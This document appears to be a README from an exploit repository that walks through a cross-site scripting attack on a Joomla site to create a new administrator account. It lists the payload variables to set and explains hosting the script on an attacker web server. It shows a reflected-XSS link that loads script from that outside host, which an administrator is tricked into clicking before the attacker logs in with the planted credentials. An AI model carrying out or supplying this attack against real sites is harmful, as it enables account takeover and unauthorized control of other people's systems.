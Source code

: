 # [Acc] Create New Admin User

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`createAdminAccJoomla.js`)

    `newAccUser` - username of the user account to be created

    `newAccPass` - password of the user account to be created (**NOTE**: minimum password length is 12 characters)

    `newAccEmail` - email of the user account to be created

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/path"`)

2. [setup exploit] setup web server (to serve the payload)

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.19/administrator

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.13/createAdminAccJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.13` - web server hosting payload

5. [post exploit] attacker logs into target Joomla site using specified credentials

    http://192.168.5.19/administrator/

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

![Image](screenshots/Joomla_-_create_new_admin_-_1-1.png)
